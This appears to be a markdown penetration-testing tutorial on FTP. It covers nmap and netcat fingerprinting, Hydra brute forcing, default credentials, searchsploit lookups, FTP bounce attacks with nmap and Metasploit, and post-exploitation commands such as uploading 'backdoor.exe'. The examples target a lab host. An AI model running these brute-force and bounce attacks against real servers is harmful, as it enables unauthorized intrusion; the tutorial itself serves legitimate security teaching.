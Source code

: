 
#  File Transfer Protocol (FTP) - Penetration Testing
---

##  FTP Basics
- Remote file system access
- Operates on **TCP ports 21 (control)** and **20 (data)**
## How does FTP work?
 - A typical FTP session operates using two channels:
     - a command (sometimes called the control) channel > used for transmitting commands as well as replies to those commands.
     - a data channel > used for transferring data. 
 -  FTP Modes of Operation
    - Active :  the client opens a port and listens. The server is required to actively connect to it
    - passive : the server opens a port and listens (passively) and the client connects to it.

 - More info **https://www.ietf.org/rfc/rfc959.txt**
---

##  FTP Vulnerabilities
1. Brute force login attacks
2. Anonymous login and unauthenticated access
3. Authentication bypass or exploitation of vulnerable software

---

##  Fingerprinting FTP Services

###  Using Nmap:
```bash
nmap -Pn -sS -A -p21 192.168.10.x
```
![Nmap Scan](images/t1.png)

###  Banner Grabbing using Netcat:
```bash
nc -nv 192.168.10.x 21
```
![Netcat Output](images/t2.png)

###  Useful Nmap FTP Scripts:
- `ftp-anon`: Test for anonymous login access
- `ftp-brute`: Brute force FTP username/password
- `ftp-syst`: Get FTP version and system type

```bash
nmap -p 21 -T4 --script ftp-anon,ftp-syst,ftp-brute 192.168.10.x
```

 Example Output:
```plaintext
Nmap scan report for 192.168.10.129
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     > user:user - Valid credentials <
|_  Statistics: Performed 1833 guesses in 302 seconds
| ftp-syst: 
|   vsFTPd 2.3.4 - secure, fast, stable
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

---

##  Brute Forcing with Hydra
```bash
hydra -L users.txt -P pass.txt ftp://<target-ip>
```

---

##  Version Detection & Exploit Search
After detecting the FTP version, use `searchsploit` to find related vulnerabilities (CVEs):

```bash
searchsploit <ftp-version>
```
![Searchsploit](images/t3.png)

---

##  Default FTP Credentials (Try First)
```bash
ftp:ftp
anonymous:anonymous
user:user
```

 Example with Metasploitable2:
```bash
ftp 192.168.10.x
# Login: ftp
# Password: ftp
```
![FTP Access](images/t4.png)

---

#  FTP Attacks

##  FTP Bounce Attack

###  Concept:
1. FTP Active mode uses `PORT` to send target IP and port
2. Attacker manipulates FTP server to connect to other internal devices
3. Allows internal **port scanning**, **relay attacks**, or **data exfiltration**

###  Tools:

#### Nmap:
```bash
nmap -b <ftp_user>:<ftp_pass>@<FTP_server> <target_network>
```

####  Metasploit:
```bash
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS <FTP_server>
set RPORT <FTP_port>
run
```

---

##  Post-Exploitation FTP Commands

| Command | Description | Example |
|---------|-------------|---------|
| lcd     | Change local directory     | `lcd /path/to/dir`     |
| cd      | Change server directory    | `cd /target/dir`       |
| ls      | List server files          | `ls`                   |
| get     | Download file              | `get file.txt`         |
| mget    | Download multiple files    | `mget *.txt`           |
| put     | Upload file                | `put backdoor.exe`     |
| mput    | Upload multiple files      | `mput *.exe`           |
| bin     | Binary mode                | `bin`                  |
| ascii   | ASCII transfer mode        | `ascii`                |
| quit    | Exit FTP client            | `quit`                 |

---
